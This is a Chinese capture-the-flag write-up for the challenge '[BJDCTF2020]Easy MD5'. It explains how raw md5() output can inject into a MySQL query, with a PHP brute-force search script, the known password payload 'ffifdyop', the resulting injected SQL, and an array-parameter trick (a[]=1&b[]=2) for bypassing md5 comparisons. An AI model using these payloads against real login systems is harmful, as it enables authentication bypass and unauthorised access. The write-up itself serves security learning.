

# [BJDCTF2020]Easy MD5

## 知识点

`sql注入`

## 解题

响应头里有

`select * from 'admin' where password=md5($pass,true)`



这里说一下两个的联系，这里的`16`位秘文和`32`位秘文的第`8-24`位子字符串时一样的，也就是中间的`16`位。

这里的原始`16`字符二进制格式一般会有乱码，如果想解决的话

1.对输出的`16`位字节的二进制转换为十六进制。

2.取`32`位秘文的中间`16`位

如果`MD5`值经过`hex`后，就构成万能密码进行了`sql注入`，这个就是这个题的关键

在`mysql`里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。

要注意的是这种情况是必须要有单引号括起来的，比如`password=‘xxx’ or ‘1xxxxxxxxx’`，那么就相当于`password=‘xxx’ or 1` ，也就相当于`password=‘xxx’ or true`，所以返回值就是`true`。

```php
<?php 
for ($i = 0;;) {
 for ($c = 0; $c < 1000000; $c++, $i++)
  if (stripos(md5($i, true), '\'or\'') !== false)
   echo "\nmd5($i) = " . md5($i, true) . "\n";
 echo ".";
}
?>//引用于 http://mslc.ctf.su/wp/leet-more-2010-oh-those-admins-writeup/
```

这里提供一个最常用的：`ffifdyop`，该字符串`md5`加密后若`raw`参数为`True`时会返回` 'or'6 `(其实就是一些乱码和不可见字符，这里只要第一位是非零数字即可被判定为`True`，后面的会在`MySQL`将其转换成整型比较时丢掉)

所以如果这里我们输入`ffifdyop`，后端的`SQL语句`会变成：

```sql
select * from 'admin' where password=''or'6<trash>'           --->  True
```

后面的就是数组绕过`md5`

都是

```
a[]=1&b[]=2
```

这样的`数组绕过md5`